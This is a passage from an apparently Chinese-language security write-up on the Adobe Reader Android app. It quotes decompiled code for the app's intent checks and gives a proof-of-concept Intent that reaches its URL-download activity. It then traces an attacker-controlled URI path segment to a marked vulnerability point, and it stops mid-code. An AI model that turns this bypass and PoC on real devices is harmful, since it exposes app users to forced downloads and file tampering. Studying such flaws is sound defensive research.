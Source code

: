 第四个判断点，只要是`http`或者`https`即可绕过

第五个判断点

```java
if(__intent__.getData() != null && !__intent__.getData().toString().contains("app.link")) {  // 第五个判断点
    Intent intentToARFileURLDownloadActivity = new Intent(this, ARFileURLDownloadActivity.class);
    intentToARFileURLDownloadActivity.putExtra("FILE_PATH_key", __intent__.getData());
    intentToARFileURLDownloadActivity.putExtra("FILE_MIME_TYPE", __intent__.getType());
    this.startActivity(intentToARFileURLDownloadActivity);  // [3]
    this.logSourceInfo();
    this.logLaunchAnalytics("Document Download", __intent__.getAction(), __intent__.getType());
    this.finish();
    return;
}
```

如下构造PoC即可使业务逻辑走到`[3]`，添加了Uri和Type字段

```java
Intent intent = new Intent();
intent.setClassName("com.adobe.reader", "com.adobe.reader.AdobeReader");
intent.setDataAndType(Uri.parse("https://127.0.0.1/a/b/c/poc.pdf"), "application/*");
intent.putExtra("hideOptionalScreen", "true");
startActivity(intent);
```

跳转到`ARFileURLDownloadActivity`后，会将传入Uri的Path字段取出并构造出一个文件路径，用于界面展示，然后传进来的数据会被整合传递到`ARFileURLDownloadService`

```java
// com.adobe.reader.misc.ARFileURLDownloadActivity
public class ARFileURLDownloadActivity extends ARFileTransferActivity {

    @Override  // com.adobe.reader.misc.ARFileTransferActivity
    public void onMAMCreate(Bundle bundle) {
        super.onMAMCreate(bundle);
        this.mServiceIntent = new Intent(this, ARFileURLDownloadService.class);  // 构造Intent
        Bundle newBundle = new Bundle();
        Bundle __intent_extras__ = this.getIntent().getExtras();
        Uri __intent_extras_FILE_PATH_key__ = (Uri)__intent_extras__.getParcelable("FILE_PATH_key");
        String __intent_extras_FILE_MIME_TYPE__ = __intent_extras__.getString("FILE_MIME_TYPE");
        String __intent_extras_FILE_PATH_key_lastPathSegment__ = __intent_extras_FILE_PATH_key__.getLastPathSegment();  // 获取Uri的Path，外部可控
        if(__intent_extras_FILE_PATH_key_lastPathSegment__ == null) {
            new BBToast(ARApp.getAppContext(), 1).withText(this.getResources().getString(0x7F13063E)).show();  // 无效的文件名
            this.finish();
            return;
        }

        String modifiedFileNameWithExtension = BBIntentUtils.getModifiedFileNameWithExtensionUsingIntentData(__intent_extras_FILE_PATH_key_lastPathSegment__, __intent_extras_FILE_MIME_TYPE__, null, __intent_extras_FILE_PATH_key__);  // 漏洞点
        String IDS_CLOUD_DOWNLOADING_STR = this.getString(0x7F130222);  // 正在打开
        newBundle.putParcelable("FILE_PATH_key", __intent_extras_FILE_PATH_key__);
        String fileID = String.valueOf(System.currentTimeMillis());  // 这个字段用于后续通知
        this.mFileID = fileID;
        newBundle.putCharSequence("FILE_ID_key", fileID);
        newBundle.putString("FILE_MIME_TYPE", __intent_extras_FILE_MIME_TYPE__);
        ((TextView)this.findViewById(0x7F0B0225)).setText(modifiedFileNameWithExtension);
        this.setTransferStatusText(IDS_CLOUD_DOWNLOADING_STR);
        ((ImageView)this.findViewById(0x7F0B0220)).setImageResource(ARUtils.getProgressViewDrawableIconForFile(modifiedFileNameWithExtension, __intent_extras_FILE_MIME_TYPE__));  // 进度条
        this.registerBroadcastReceivers();
```